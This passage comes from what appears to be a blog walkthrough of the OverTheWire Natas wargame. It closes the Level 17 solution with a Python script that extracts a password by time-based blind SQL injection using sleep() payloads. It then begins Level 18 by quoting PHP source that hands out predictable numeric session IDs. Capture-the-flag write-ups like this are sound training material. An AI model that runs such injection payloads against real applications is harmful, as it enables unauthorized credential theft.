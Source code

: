 # retrieve the password one char at a time
for i in range(1, 33):
    print("Testing password...")
    for c in usedChars:
        print("Trying Character: " + c)
        try:
            resp = send_query('natas18" and if(ascii(substring((select password from users where username="natas18"),%d,1))=%s, sleep(3), 1) #' % (i, ord(c)))
        except requests.exceptions.Timeout:
            password += c
            print("Found character: " + c)
            print("Password so far: " + password)
            break

print('Password: ' + password)
print("--- %s seconds ---" % (time.time() - start_time))
</pre>

&nbsp;

### LEVEL 18

<img class="alignnone size-full wp-image-255" src="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h17_35.png" alt="" width="599" height="295" srcset="http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h17_35.png 599w, http://dustinwatts.me/wp-content/uploads/2019/09/2019-09-16_08h17_35-300x148.png 300w" sizes="(max-width: 599px) 100vw, 599px" /> 

sourcecode:

<pre class="lang:php decode:true ">&lt;?

$maxid = 640; // 640 should be enough for everyone

function isValidAdminLogin() { 
    if($_REQUEST["username"] == "admin") {
    /* This method of authentication appears to be unsafe and has been disabled for now. */
        //return 1;
    }

    return 0;
}

function isValidID($id) { 
    return is_numeric($id);
}

function createID($user) { 
    global $maxid;
    return rand(1, $maxid);
}

function debug($msg) { 
    if(array_key_exists("debug", $_GET)) {
        print "DEBUG: $msg&lt;br&gt;";
    }
}

